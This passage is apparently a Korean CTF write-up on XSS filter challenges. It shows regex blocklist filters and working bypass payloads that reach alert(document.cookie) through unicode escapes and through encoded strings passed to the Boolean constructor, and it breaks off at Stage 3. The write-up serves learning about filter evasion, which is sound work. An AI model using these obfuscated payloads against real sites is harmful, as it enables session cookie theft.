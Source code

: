 **al\u0065rt(docum\u0065nt.cookie)** 를 사용했다.  

### Stage 2  
```javascript
function XSSFilter(data){
  if(/alert|window|document|eval|cookie|this|self|parent|top|opener|function|constructor|[\-+\\<>{}=]/i.test(data)){
    return false;
  }
  return true;
}
```

Stage 1에서 우회할 때 흔히 사용하는 대체어를 거의 필터링 한다.  

Stage 2는 너무 어려워서 답을 먼저 봤다.  

<img src="3.jpg">  

```javascript
// %63%6F%6E%73%74%72%75%63%74%6F%72 -> constructor
// %61%6C%65%72%74%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%29 -> alert(document.cookie)
Boolean[decodeURI('%63%6F%6E%73%74%72%75%63%74%6F%72')](decodeURI('%61%6C%65%72%74%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%29'))();
Boolean[atob('Y29uc3RydWN0b3I')](atob('YWxlcnQoZG9jdW1lbnQuY29va2llKQ'))();
```
위의 2가지 방식이 있다.  
먼저 constructor는 **자바스크립트 객체의 생성자 함수**를 나타내는 프로퍼티이다.  
여기서 **Boolean[constructor].메소드** 를 통해 특정 메소드를 실행할 수 있다고 한다.  
물론 보안 상의 문제로 사용은 비권장한다.  
즉, 첫 번째는 **decodeURI** 를 통해 **퍼센트 인코딩** 을 디코딩한다. 두 번째는 **atob**를 통해 **Base64 인코딩**을 디코딩한다.  
인코딩/디코딩의 방식 차이이다.  

### Stage 3  
```javascript
function XSSFilter(data){
  if(/[()"'`]/.test(data)){
    return false;
  }
  return true;
}
```
